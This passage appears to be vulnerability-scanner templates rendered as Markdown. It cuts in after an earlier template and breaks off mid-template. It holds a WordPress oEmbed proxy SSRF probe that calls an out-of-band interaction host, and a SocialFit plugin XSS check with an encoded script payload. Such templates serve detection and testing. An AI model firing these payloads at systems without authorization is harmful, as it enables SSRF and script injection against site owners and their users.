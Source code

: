 - status
  1. 200

---

# Wordpress Oembed Proxy SSRF

- severity - medium
- tags - wordpress,ssrf,oast,proxy

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-json/oembed/1.0/proxy?url=http://{{interactsh-url}}/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# WordPress SocialFit - Cross-Site Scripting

## Description

- WordPress SocialFit is vulnerable to a cross-site scripting vulnerability via the 'msg' parameter because it fails to properly sanitize user-supplied input.

- severity - high
- tags - wordpress,xss,wp-plugin,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/socialfit/popup.php?service=googleplus&msg=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**
